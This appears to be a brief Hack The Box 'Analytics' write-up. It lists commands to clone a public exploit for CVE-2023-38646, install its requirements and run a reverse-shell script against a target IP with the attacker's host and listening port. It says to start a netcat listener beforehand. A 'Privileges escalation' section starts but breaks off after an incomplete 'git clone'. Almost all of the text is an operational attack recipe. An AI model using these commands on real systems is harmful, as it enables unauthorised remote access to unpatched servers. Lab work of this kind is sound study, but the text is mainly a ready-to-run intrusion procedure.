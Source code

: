 # Analytics-htb-Rce
#first clone the repository
git clone https://github.com/securezeron/CVE-2023-38646
cd CVE-2023-38646
pip install -r requirements.txt
python3 CVE-2023-38646-Reverse-Shell.py -h
#the before run reverse shell start netact listeiner and  go back to run script as follows
python3 CVE-2023-38646-Reverse-Shell.py --rhost {Target Ip address} --lhost {your ip-adress} --lport {port to listen rervse shell} 
# Privileges escalation
git clone 

